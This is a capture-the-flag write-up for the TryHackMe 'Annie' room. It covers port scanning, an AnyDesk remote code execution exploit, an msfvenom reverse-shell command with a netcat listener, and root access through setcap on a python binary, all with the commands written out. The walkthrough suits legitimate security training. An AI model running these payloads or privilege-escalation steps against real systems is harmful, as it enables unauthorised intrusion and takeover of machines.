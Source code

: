 # **_Annie TryHackMe Writeup_**
## SneakyTurtle158
## Room Creator: TobjasR
[Annie](https://tryhackme.com/room/annie)

Let's get right into it!

I always start off my enumeration on these THM machines with the threader3000 tool (mostly because waiting for a full nmap scan takes some time.)
Threader3000 is great becasue it allows for multithreaded port scanning. In a real world scenario this is a very noisy scan, so you wouldn't likely use it, but in THM boxes it's great becasue it can enumerate ports in 30-90 seconds and then will suggest an in-depth nmap scan that you can run against those specific ports. 

To use the tool you can clone it right from the repo using git:

```bash
cd /opt && git clone https://github.com/dievus/threader3000.git
cd threader3000
chmod +x threader3000.py
./threader3000.py
```

So I ran threader3000 and then did the suggested nmap scan to get some more info:

```bash
------------------------------------------------------------
        Threader 3000 - Multi-threaded Port Scanner          
                       Version 1.0.7                    
                   A project by The Mayor               
------------------------------------------------------------
Enter your target IP address or URL here: 10.10.48.57
------------------------------------------------------------
Scanning target 10.10.48.57
Time started: 2022-07-03 15:18:55.885442
------------------------------------------------------------
Port 22 is open
Port 7070 is open
Port 40105 is open
Port scan completed in 0:01:13.866787
------------------------------------------------------------
Threader3000 recommends the following Nmap scan:
************************************************************
nmap -p22,7070,40105 -sV -sC -T4 -Pn -oA 10.10.48.57 10.10.48.57
************************************************************
Would you like to run Nmap or quit to terminal?
------------------------------------------------------------
1 = Run suggested Nmap scan
2 = Run another Threader3000 scan
3 = Exit to terminal
------------------------------------------------------------
Option Selection: 1
nmap -p22,7070,40105 -sV -sC -T4 -Pn -oA 10.10.48.57 10.10.48.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 15:20 EDT
Nmap scan report for 10.10.48.57
Host is up (0.22s latency).

PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
40105/tcp closed unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.76 seconds
```

Ok, so the first thing that caught my eye here is the AnyDesk Client running on port 7070. I've never dealt with AnyDesk so I used some quick Google Fu to try to get up to speed on it. It looks like it also commonly uses a UDP port in the 50001-50003 range so I did a quick nmap UDP scan of that port range to try to confirm what I was seeing:

```bash
┌──(root㉿kali)-[/opt/THM/annie]
└─# nmap -sU -p50001-50003 10.10.48.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-03 15:38 EDT
Nmap scan report for 10.10.48.57
Host is up (0.24s latency).

PORT      STATE         SERVICE
50001/udp open|filtered unknown
50002/udp closed        unknown
50003/udp closed        unknown
```

So, knowing that we have the AnyDesk client running on this machine, I started to search around for any potential vulnerabilities or exploits.

This pretty quickly revealed an RCE exploit on exploit-db: [AnyDesk 5.5.2 - Remote Code Execution](https://www.exploit-db.com/exploits/49613)

Now, we don't really have any way of knowing if the version of the AnyDesk client is the vulnerable version, but we are going to take a shot in the dark here and see what happens. 

First thing we have to do is make some edits to the exploit to make sure the target IP reflects our target (the port number lines up with what we saw in our UDP scan):
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/1.png">
</p>

Next, we need to update the payload of the actual exploit with our own shellcode so we will first run the msfvenom command to get our specific shellcode:
```bash
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.13.40.163 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/2.png">
</p>
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/3.png">
</p>

Next, we just need to set up a listener on our machine using the port we designated in the payload (in my case port 4444):
```bash
# nc -nvlp 4444
```
Then, send it!
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/4.png">
</p>

Back over on our listener, we've picked up a shell:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/5.png">
</p>

Let's clean up the shell with python's pty:
`# python3 -c 'import pty;pty.spawn("/bin/bash")'`

And we've got our first flag!
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/6.png">
</p>

Now, my next step before going crazy trying to upload LinPEAS is to just check some basic privesc stuff. I don't have annie's password so let's look for som SUID binaries:
`find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/7.png">
</p>

Looks like we have setcap so we can use this to gain root shell by adding extended permissions to the python binary on the machine:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/8.png">
</p>

Now that we've added the extended permissions, all we need to do is use our python binary to spawn a shell and we'll have root. (Make sure you are using the binary that you added the +ep to not the one located in /usr/bin)

`# ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/raw/pictures/annie/9.png">
</p>

_And that's it! Thanks for following along._
